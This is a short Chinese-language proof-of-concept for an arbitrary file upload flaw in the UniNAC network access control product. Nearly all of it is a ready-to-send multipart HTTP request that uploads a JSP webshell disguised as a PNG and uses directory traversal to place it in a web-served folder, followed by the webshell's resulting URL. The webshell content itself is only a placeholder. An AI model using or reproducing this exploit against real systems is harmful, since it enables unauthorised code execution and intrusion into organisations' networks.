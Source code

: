 # 联软准入UniNAC 任意文件上传

影响版本：
- 未知

poc：
```
POST /uai/download/uploadfileToPath.htm HTTP/1.1

HOST: xxxxx

-----------------------------570xxxxxxxxx6025274xxxxxxxx1

Content-Disposition: form-data; name="input_localfile"; filename="webshell.jsp"

Content-Type: image/png

<%@page webshell%>

-----------------------------570xxxxxxxxx6025274xxxxxxxx1

Content-Disposition: form-data; name="uploadpath"

../webapps/notifymsg/devreport/-----------------------------570xxxxxxxxx6025274xxxxxxxx1--
```

webshell地址：/notifymsg/devreport/webshell.jsp